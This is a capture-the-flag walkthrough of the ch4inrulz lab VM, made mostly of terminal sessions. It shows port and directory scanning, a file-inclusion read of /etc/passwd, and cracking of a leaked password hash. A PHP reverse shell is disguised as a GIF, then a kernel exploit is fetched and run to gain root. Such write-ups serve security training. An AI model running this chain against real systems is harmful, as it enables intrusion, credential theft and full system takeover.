

#### ch4inrulz: 1.0.1

- [Attacker Info](#attacker-info)
- [Identify Victim](#identify-victim)
- [Nmap Scan](#nmap-scan)
- [FTP Enumeration](#ftp-enumeration)
- [Web Enumeration](#web-enumeration)
- [Limited Shell](#limited-shell)
- [Becoming root](#becoming-root)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.81  netmask 255.255.255.0  broadcast 10.0.0.255
        inet6 2601:5cc:c900:4024::ea8d  prefixlen 128  scopeid 0x0<global>
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        inet6 2601:5cc:c900:4024:48a0:c058:1c59:2e8f  prefixlen 64  scopeid 0x0<global>
        inet6 2601:5cc:c900:4024:20c:29ff:feb0:a919  prefixlen 64  scopeid 0x0<global>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 91126  bytes 24990035 (23.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 342773  bytes 21800407 (20.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 72  bytes 3756 (3.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 72  bytes 3756 (3.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Identify Victim 

```sh
root@kali:~# netdiscover -r 10.0.0.1/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 12 Captured ARP Req/Rep packets, from 8 hosts.   Total size: 720
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 10.0.0.1        00:50:f1:80:00:00      1      60  Intel Corporation
 10.0.0.20       bc:9f:ef:69:35:19      1      60  Apple, Inc.
 10.0.0.95       f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 10.0.0.87       b8:c1:11:0b:52:0c      1      60  Apple, Inc.
 10.0.0.156      00:0c:29:d5:f4:26      1      60  VMware, Inc.
 10.0.0.254      00:05:04:03:02:01      1      60  Naray Information & Communication Enterprise
 0.0.0.0         e8:2a:44:d2:47:69      3     180  Liteon Technology Corporation
 10.0.0.144      e8:2a:44:d2:47:69      3     180  Liteon Technology Corporation

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/CH4INRULZ# nmap -sC -sV -oA CH4INRULZ.nmap 10.0.0.156 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-28 21:27 EDT
Nmap scan report for 10.0.0.156
Host is up (0.00067s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.5
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.0.0.81
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 2.3.5 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 d4:f8:c1:55:92:75:93:f7:7b:65:dd:2b:94:e8:bb:47 (DSA)
|   2048 3d:24:ea:4f:a2:2a:ca:63:b7:f4:27:0f:d9:17:03:22 (RSA)
|_  256 e2:54:a7:c7:ef:aa:8c:15:61:20:bd:aa:72:c0:17:88 (ECDSA)
80/tcp   open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: FRANK's Website | Under development
8011/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:D5:F4:26 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.69 seconds
root@kali:~/CH4INRULZ#
```

###### FTP Enumeration

```sh
root@kali:~/CH4INRULZ# ftp 10.0.0.156
Connected to 10.0.0.156.
220 (vsFTPd 2.3.5)
Name (10.0.0.156:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        111          4096 Apr 13  2018 .
drwxr-xr-x    2 0        111          4096 Apr 13  2018 ..
226 Directory send OK.
ftp> exit
221 Goodbye.
root@kali:~/CH4INRULZ#
```

###### Web Enumeration

```
http://10.0.0.156
```


```sh
root@kali:~/CH4INRULZ# dirb http://10.0.0.156 /usr/share/dirb/wordlists/big.txt -N 404 -r

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Oct 28 21:36:33 2018
URL_BASE: http://10.0.0.156/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt
OPTION: Ignoring NOT_FOUND code -> 404
OPTION: Not Recursive

-----------------

GENERATED WORDS: 20458

---- Scanning URL: http://10.0.0.156/ ----
+ http://10.0.0.156/LICENSE (CODE:200|SIZE:1093)
+ http://10.0.0.156/cgi-bin/ (CODE:403|SIZE:286)
==> DIRECTORY: http://10.0.0.156/css/
+ http://10.0.0.156/development (CODE:401|SIZE:477)
==> DIRECTORY: http://10.0.0.156/img/
+ http://10.0.0.156/index (CODE:200|SIZE:334)
==> DIRECTORY: http://10.0.0.156/js/
+ http://10.0.0.156/robots (CODE:200|SIZE:21)
+ http://10.0.0.156/robots.txt (CODE:200|SIZE:21)
+ http://10.0.0.156/server-status (CODE:403|SIZE:291)
==> DIRECTORY: http://10.0.0.156/vendor/

-----------------
END_TIME: Sun Oct 28 21:36:57 2018
DOWNLOADED: 20458 - FOUND: 7
root@kali:~/CH4INRULZ#
```

```
http://10.0.0.156/development
```


```
http://10.0.0.156:8011/
```


```sh
root@kali:~/CH4INRULZ# dirb http://10.0.0.156:8011 /usr/share/dirb/wordlists/big.txt -N 404 -r

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Oct 28 21:40:34 2018
URL_BASE: http://10.0.0.156:8011/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt
OPTION: Ignoring NOT_FOUND code -> 404
OPTION: Not Recursive

-----------------

GENERATED WORDS: 20458

---- Scanning URL: http://10.0.0.156:8011/ ----
==> DIRECTORY: http://10.0.0.156:8011/api/
+ http://10.0.0.156:8011/server-status (CODE:403|SIZE:293)

-----------------
END_TIME: Sun Oct 28 21:40:55 2018
DOWNLOADED: 20458 - FOUND: 1
root@kali:~/CH4INRULZ#
```

```
http://10.0.0.156:8011/api/
```



```
http://10.0.0.156:8011/api/files_api.php
```


```
http://10.0.0.156:8011/api/files_api.php?file=/etc/passwd
```


```sh
root@kali:~/CH4INRULZ# curl -X POST -d "file=/etc/passwd" http://10.0.0.156:8011/api/files_api.php

<head>
  <title>franks website | simple website browser API</title>
</head>

root:x:0:0:root:/root:/bin/bash
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
frank:x:1000:1000:frank,,,:/home/frank:/bin/bash
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:111:ftp daemon,,,:/srv/ftp:/bin/false

root@kali:~/CH4INRULZ#
```

- [`SecLists-SVNDigger`](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/SVNDigger/all.txt)

```sh
root@kali:~/CH4INRULZ# wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/SVNDigger/all.txt
--2018-10-30 19:53:29--  https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/SVNDigger/all.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.248.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.248.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 707180 (691K) [text/plain]
Saving to: ‘all.txt’

all.txt                                            100%[================================================================================================================>] 690.61K  --.-KB/s    in 0.1s

2018-10-30 19:53:30 (5.66 MB/s) - ‘all.txt’ saved [707180/707180]

root@kali:~/CH4INRULZ#
```

```sh
root@kali:~/CH4INRULZ# dirb http://10.0.0.156 all.txt

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Oct 30 19:54:15 2018
URL_BASE: http://10.0.0.156/
WORDLIST_FILES: all.txt

-----------------

GENERATED WORDS: 43104

---- Scanning URL: http://10.0.0.156/ ----
==> DIRECTORY: http://10.0.0.156/img/
+ http://10.0.0.156/LICENSE (CODE:200|SIZE:1093)
+ http://10.0.0.156/index (CODE:200|SIZE:334)
+ http://10.0.0.156/robots.txt (CODE:200|SIZE:21)
+ http://10.0.0.156/index.html (CODE:200|SIZE:13516)
==> DIRECTORY: http://10.0.0.156/vendor/
+ http://10.0.0.156/????.txt (CODE:200|SIZE:13516)
+ http://10.0.0.156/development (CODE:401|SIZE:477)
+ http://10.0.0.156/?? (CODE:200|SIZE:13516)
+ http://10.0.0.156/??.txt (CODE:200|SIZE:13516)
+ http://10.0.0.156/%%45^45E^45E480CD%%index.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/???? (CODE:200|SIZE:13516)
+ http://10.0.0.156/%%F7^F7F^F7F34188%%header.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%0E^0E4^0E407559%%footer.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/????.rar (CODE:200|SIZE:13516)
+ http://10.0.0.156/%%6A^6A5^6A537DD8%%login.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/????? (CODE:200|SIZE:13516)
+ http://10.0.0.156/??? (CODE:200|SIZE:13516)
+ http://10.0.0.156/????.html (CODE:200|SIZE:13516)
+ http://10.0.0.156/??????.xls (CODE:200|SIZE:13516)
+ http://10.0.0.156/???????.rar (CODE:200|SIZE:13516)
+ http://10.0.0.156/??????????.txt (CODE:200|SIZE:13516)
+ http://10.0.0.156/?????.rar (CODE:200|SIZE:13516)
+ http://10.0.0.156/??????? (CODE:200|SIZE:13516)
+ http://10.0.0.156/%%C8^C82^C821C881%%register.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%-13^%%-135052920^header.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%-14^%%-1407541581^method.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%165^%%1653142046^class.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%239^%%239105369^footer.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%708^%%708843835^var.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%77^774^774BE9C9%%index.html.php (CODE:400|SIZE:302)
+ http://10.0.0.156/????.vsd (CODE:200|SIZE:13516)
+ http://10.0.0.156/????.xls (CODE:200|SIZE:13516)
+ http://10.0.0.156/?????.xls (CODE:200|SIZE:13516)
+ http://10.0.0.156/???.txt (CODE:200|SIZE:13516)
+ http://10.0.0.156/???????.txt (CODE:200|SIZE:13516)
+ http://10.0.0.156/?????? (CODE:200|SIZE:13516)
+ http://10.0.0.156/??????.txt (CODE:200|SIZE:13516)
+ http://10.0.0.156/%%6D^6D7^6D7C5625%%test.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/????????.txt (CODE:200|SIZE:13516)
+ http://10.0.0.156/%%41^41F^41F24718%%header.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%1A^1AB^1AB9BADF%%login.html.php (CODE:400|SIZE:302)
+ http://10.0.0.156/index.html.bak (CODE:200|SIZE:334)
+ http://10.0.0.156/??.xls (CODE:200|SIZE:13516)
+ http://10.0.0.156/%%2A^2A7^2A72D64A%%categories.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/robots (CODE:200|SIZE:21)
+ http://10.0.0.156/??????.vsd (CODE:200|SIZE:13516)
+ http://10.0.0.156/???.vsd (CODE:200|SIZE:13516)
+ http://10.0.0.156/%%-20^%%-2040098360^filesource.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%13^13E^13E2CA0E%%home.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%2E^2E4^2E4D4797%%add_user.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%33^330^33066966%%manage_users.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%3D^3D3^3D34000E%%message.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%5F^5F2^5F2CEFE2%%myaccount.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%72^72A^72AAA3F9%%settings.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%B7^B7E^B7EEE2AD%%users.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%F2^F2A^F2A0FFFB%%sermons.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%FC^FC8^FC84D2B5%%login.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/? (CODE:200|SIZE:13516)
+ http://10.0.0.156/???????.xls (CODE:200|SIZE:13516)
+ http://10.0.0.156/???.xls (CODE:200|SIZE:13516)
+ http://10.0.0.156/%%E3^E36^E36F7EB7%%test.conf%7Csetup.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%127^%%12781687^pkgelementindex.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%-65^%%-658603405^page.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%176^%%1767056382^include.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%-19^%%-1910644431^basicindex.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%117^%%1172603085^index.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%131^%%131447552^elementindex.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%202^%%2027336986^classtrees.tpl.php (CODE:400|SIZE:302)
+ http://10.0.0.156/%%146^%%146134639^function.tpl.php (CODE:400|SIZE:302)

---- Entering directory: http://10.0.0.156/img/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.0.0.156/vendor/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Tue Oct 30 19:55:39 2018
DOWNLOADED: 43104 - FOUND: 68
root@kali:~/CH4INRULZ#
```

```sh
root@kali:~/CH4INRULZ# curl http://10.0.0.156/index.html.bak
<html><body><h1>It works!</h1>
<p>This is the default web page for this server.</p>
<p>The web server software is running but no content has been added, yet.</p>
<a href="/development">development</a>
<!-- I will use frank:$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0 as the .htpasswd file to protect the development path -->
</body></html>
root@kali:~/CH4INRULZ#
```

```sh
root@kali:~/CH4INRULZ# nano hash.txt
root@kali:~/CH4INRULZ# cat hash.txt
frank:$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0
root@kali:~/CH4INRULZ#
root@kali:~/CH4INRULZ# john hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
frank!!!         (frank)
1g 0:00:00:00 DONE 1/3 (2018-10-30 19:57) 20.00g/s 3760p/s 3760c/s 3760C/s frank!!..fr4nk
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/CH4INRULZ#
```

```
http://10.0.0.156/development
```


```
http://10.0.0.156/development/uploader/
```


###### Limited Shell

```sh
root@kali:~/CH4INRULZ# cp /usr/share/webshells/php/php-reverse-shell.php .
root@kali:~/CH4INRULZ# nano php-reverse-shell.php
root@kali:~/CH4INRULZ#
root@kali:~/CH4INRULZ#
root@kali:~/CH4INRULZ# head php-reverse-shell.php
GIF98
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
root@kali:~/CH4INRULZ#
root@kali:~/CH4INRULZ# mv php-reverse-shell.php shell.gif
```


```
http://10.0.0.156/development/uploader/FRANKuploads/shell.gif
```


```sh
curl –X POST –d "file=/var/www/development/uploader/FRANKuploads/shell.gif" http://10.0.0.156:8011/api/files_api.php
```

```sh
root@kali:~/CH4INRULZ# nc -nlvp 1234
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.0.156.
Ncat: Connection from 10.0.0.156:54553.
Linux ubuntu 2.6.35-19-generic #28-Ubuntu SMP Sun Aug 29 06:34:38 UTC 2010 x86_64 GNU/Linux
 22:49:41 up  4:24,  0 users,  load average: 0.00, 0.01, 0.11
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ uname -a
Linux ubuntu 2.6.35-19-generic #28-Ubuntu SMP Sun Aug 29 06:34:38 UTC 2010 x86_64 GNU/Linux
$
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$
www-data@ubuntu:/$ cat /etc/lsb-release
cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=10.10
DISTRIB_CODENAME=maverick
DISTRIB_DESCRIPTION="Ubuntu maverick (development branch)"
www-data@ubuntu:/$
www-data@ubuntu:/$ file /bin/ls
/bin/ls: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, stripped
www-data@ubuntu:/$
```

###### Becoming root

[`2.6.35-19-generic kernel exploit`](https://www.google.com/search?q=2.6.35-19-generic+kernel+exploit&oq=2.6.35-19-generic+kernel+exploit&aqs=chrome..69i57j33.3245j0j7&sourceid=chrome&ie=UTF-8)


[`rds64`](https://github.com/lucyoa/kernel-exploits/raw/master/rds/rds64)

```sh
root@kali:~/CH4INRULZ# wget https://github.com/lucyoa/kernel-exploits/raw/master/rds/rds64
--2018-10-30 20:35:20--  https://github.com/lucyoa/kernel-exploits/raw/master/rds/rds64
Resolving github.com (github.com)... 192.30.253.112, 192.30.253.113
Connecting to github.com (github.com)|192.30.253.112|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/rds/rds64 [following]
--2018-10-30 20:35:20--  https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/rds/rds64
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.248.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.248.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 694271 (678K) [application/octet-stream]
Saving to: ‘rds64’

rds64                                              100%[================================================================================================================>] 678.00K  --.-KB/s    in 0.1s

2018-10-30 20:35:20 (5.95 MB/s) - ‘rds64’ saved [694271/694271]

root@kali:~/CH4INRULZ#
```

```sh
root@kali:~/CH4INRULZ# file rds64
rds64: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.18, BuildID[sha1]=50332cb2cfc055d0d8a76f8d8fad6deb84ab4899, not stripped
root@kali:~/CH4INRULZ#
```

```sh
root@kali:~/CH4INRULZ# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.0.0.156 - - [30/Oct/2018 20:44:03] "GET /rds64 HTTP/1.0" 200 -
```

```sh
www-data@ubuntu:/$ cd /tmp
www-data@ubuntu:/tmp$ wget http://10.0.0.81/rds64
--2018-10-30 17:44:03--  http://10.0.0.81/rds64
Connecting to 10.0.0.81:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 694271 (678K) [application/octet-stream]
Saving to: `rds64'

100%[======================================>] 694,271     --.-K/s   in 0.03s

2018-10-30 17:44:03 (23.5 MB/s) - `rds64' saved [694271/694271]

www-data@ubuntu:/tmp$ chmod +x rds64
chmod +x rds64
www-data@ubuntu:/tmp$ ./rds64
./rds64
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xffffffff81ce8df0
 [+] Resolved default_security_ops to 0xffffffff81a523e0
 [+] Resolved cap_ptrace_traceme to 0xffffffff8125db60
 [+] Resolved commit_creds to 0xffffffff810852b0
 [+] Resolved prepare_kernel_cred to 0xffffffff81085780
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
# id
id
uid=0(root) gid=0(root) groups=0(root)
# ls -l
ls -l
total 692
drwxrwxrwt 2 root     root       4096 Oct 30 13:42 VMwareDnD
-rw-r--r-- 1 root     root       1860 Oct 30 13:42 _cafenv-appconfig_
-rwxrwxrwx 1 www-data www-data 694271 Oct 30 17:35 rds64
drwx------ 2 root     root       4096 Oct 30 17:42 vmware-root
# cd /root
cd /root
# ls -l
ls -l
total 4
-rw-r--r-- 1 root root 33 Apr 14  2018 root.txt
# cat root.txt
cat root.txt
8f420533b79076cc99e9f95a1a4e5568
#
```